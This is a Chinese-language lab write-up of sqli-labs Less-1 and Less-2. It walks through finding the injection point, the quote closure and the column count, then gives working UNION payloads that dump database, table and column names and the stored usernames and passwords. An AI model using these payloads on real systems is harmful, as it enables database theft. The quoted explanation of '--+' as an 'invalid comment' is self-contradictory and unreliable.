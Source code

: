 # sqli靶场学习

## sqli-less1

![](./images/sqli1_1.png)
发现题目说请输入ID作为数值参数

![](./images/sqli1_2.png)
![](./images/sqli1_3.png)
判断是get传参，并且发现只有get传参传id而非ID才可有正常回显

![](./images/sqli1_4.png)
![](./images/sqli1_5.png)
输入?id=1 and 1=1 与?id=1 and 1=2 发现均有回显且没变化，考虑是字符型注入

![](./images/sqli1_6.png)
![](./images/sqli1_7.png)
id=1' and '1'='1回显正确id=1' and '1'='2回显错误（判断为【'】闭合）

---

### 注释妙用

查大佬的wp时候发现大佬用‘--+’注释掉后面的语句，而非使用‘--’，因此便查了一下，学到以下知识点：

> 1. `--` 这是MySQL中的一种单行注释方式。当你在SQL语句中使用 `--` 后跟一个空格时，它会注释掉 `--` 之后的所有内容，直到行尾。

> 2. `#` 这也是MySQL中的一种单行注释方式，用法与 `--` 类似，但它是用 `#` 开始，后面跟一个空格。

> 3. `/* ... */` 这是MySQL中的多行注释方式，可以注释掉一段跨多行的文本。

> 在SQL注入中，攻击者选择使用 `--+` 而不是 `--` 的原因通常与数据库的字符型字段处理有关。在某些情况下，如果数据库字段中已经包含了 `--` 作为数据的一部分，那么使用 `--` 作为注释符可能会导致注入的SQL语句被数据库提前注释掉，从而使得注入的恶意代码无法执行。例如，如果一个查询是这样的： 
```sql
SELECT * FROM users WHERE username = 'someUser' AND password = 'somePass--';
```

> 如果攻击者尝试注入 `--` 来注释掉 `somePass--` 后面的部分，整个密码字段 `somePass--` 都会被注释掉，因为数据库会认为 `--` 是注释的开始，而不是密码的一部分。

> 使用 `--+` 的目的是利用MySQL解析器的一个特性，即它在解析查询时会忽略 `--` 后面紧跟的任何非字母字符。因此，如果攻击者在 `--` 后面紧跟一个加号 `+`，MySQL解析器会认为 `--+` 是无效的注释，而不会将其视为注释的开始。这样，攻击者就可以绕过已经存在于查询中的 `--` 注释符，并且能够插入自己的恶意代码。

> 但这种方法需要数据库支持这种注释方式，并且需要攻击者对目标数据库的解析行为有足够的了解。在实际的SQL注入防御中，最好的策略是使用参数化查询（也称为预处理语句）来避免这类攻击，因为参数化查询会将数据和代码分开处理，从而防止SQL注入。

> 总之，`--+` 是MySQL中一种常见的单行注释方式，但需要注意使用它时需要确保数据库支持这种注释方式。
---

![](./images/sqli1_8.png)
此处用 order by 对前面的数据进行排列，先进行试数，发现只有三组数据，'order by 4–+就会超出，因此可以判断出有3个字段

---

### 特殊的SQL语句
>Union
>联合运算符⽤于组合两个或多个 SELECT 语句的结果。

>注意：每个语句中选择的列数必须相同。

>第⼀个 SELECT 语句中第⼀列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼀列的数据类型匹配 SELECT 语句。

>第⼀个 SELECT 语句中第⼆列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼆列的数据类型匹配 SELECT 语句。

---

![](./images/sqli1_9.png)
发现可以进行union联合注入那么用如下语句来进行注入

```sql
SELECT * FROM users WHERE id='-1' UNION SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata LIMIT 0, 1 --+
```
> SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata：这是注入的查询。information_schema.schemata是MySQL中的一个特殊的数据库，它包含了服务器上所有数据库的信息。group_concat函数用于将多个行中的字段值连接成一个字符串。在这个查询中，它被用来获取所有数据库的名称，并将它们合并成一个单一的字符串。

> LIMIT 0, 1：这是用来限制查询结果的数量。LIMIT 0, 1表示只返回第一行数据，而不是所有,因为它可以减少被注入的查询对原始页面显示的影响，从而降低被发现的风险。

---

![](./images/sqli1_10.png)
得到所有数据库的名称

```sql
 SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```

![](./images/sqli1_11.png)
得到security数据库中的所有表

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```
![](./images/sqli1_12.png)
得到users表中的所有列名

```sql
select 1,group_concat(username),group_concat(password) from security.users --+
```
![](./images/sqli1_13.png)
得到users表中的所有数据

### 总结

> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断闭合方式（有关注释的知识点）
> 4. 判断字段数（有关union联合注入的知识点）
> 5. 获得数据库名称
> 6. 获得列名
> 7. 获取数据

---

## sqli-less2

![](./images/sqli2_1.png)
![](./images/sqli2_2.png)
![](./images/sqli2_3.png)
输入?id=1 and 1=1 有回显，?id=1 and 1=2无回显，判断出是数字型注入

![](./images/sqli2_4.png)
输入 order by 3+ 发现有回显，输入 order by 4+ 发现无回显，判断出有3个字段

![](./images/sqli2_5.png)
发现可以使用union联合注入，输入如下语句
```
?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata LIMIT 0, 1 --+
```
![](./images/sqli2_6.png)
得到所有数据库的名称：information_schema,challenges,mysql,performance_schema,security,sys

```
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```
![](./images/sqli2_7.png)
得到security数据库中的所有表：emails,referers,uagents,users

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```
![](./images/sqli2_8.png)
得到security.users表中的所有列名：id,username,password

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(username),group_concat(password) from security.users --+
```
![](./images/sqli2_9.png)
得到users表中password的所有数据

### 总结（与less2方式相同）
> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断闭合方式
> 4. 判断字段数
> 5. 获得数据库名称
> 6. 获得列名
> 7. 获取数据


